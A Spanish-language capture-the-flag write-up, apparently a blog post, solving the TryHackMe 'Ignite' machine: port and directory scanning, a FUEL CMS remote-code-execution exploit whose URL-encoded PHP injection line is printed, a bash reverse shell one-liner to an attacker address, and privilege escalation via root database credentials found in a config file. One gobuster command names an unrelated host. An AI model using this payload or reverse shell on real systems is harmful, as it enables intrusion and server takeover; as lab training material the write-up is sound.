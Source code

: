 ```yaml
---
layout: single
title: Ignite - TryHackMe
excerpt: " Ignite is an easy machine in TryHackMe in which we'll use basic enumeration, learn more about FUEL CMS and how to explore it to gain access to the server. "
date: 2022-10-20
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-ignite/ignite.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - fuelcms
  - python
  - php
  - rce
  - mysql
---
```


Ignite is **an easy machine in TryHackMe in which we'll use basic enumeration, learn more about FUEL CMS and how to explore it to gain access to the server**.

# Summary
- IP: 10.10.240.84
- Ports: 80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd 2.4.18

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p80 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```bash
$gobuster dir -u stocker.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Analizamos la página web; encontramos un CMS denominado "Fuel" con su respectiva versión, buscamos vulnerabilidades existentes para esta versión y encontramos una script de python, analizamos el código:

```python
main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"
```

- Vemos que hay un directorio vulnerable en el que se le puede inyectar código php para poder tener un RCE, ejecutamos el exploit:

```bash
$python3 exploit.py -u http://10.10.61.125/
```

- Ejecutamos en el RCE una reverse shell básica para poder interactuar mejor con la máquina:

```bash
bash -c "bash -i >& /dev/tcp/10.18.101.123/443 0>&1"
```

- Hacemos tratamiento de la tty y encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Hacemos una búsqueda típica de formas para escalar privilegios y no encontramos nada interesante.

- Comprobamos que puertos están abiertos de forma interna en la máquina:

```bash
netstat -nat
```

- Vemos el puerto 3306 abierto (MySQL), por lo que podríamos buscar información de la base de datos que hay por detrás:

```bash
$ find . 2>/dev/null | grep "database" 
```

- Encontramos un archivo "database.php", lo analizamos y encontramos credenciales de "root".
- Accedemos como root y encontramos la última flag.
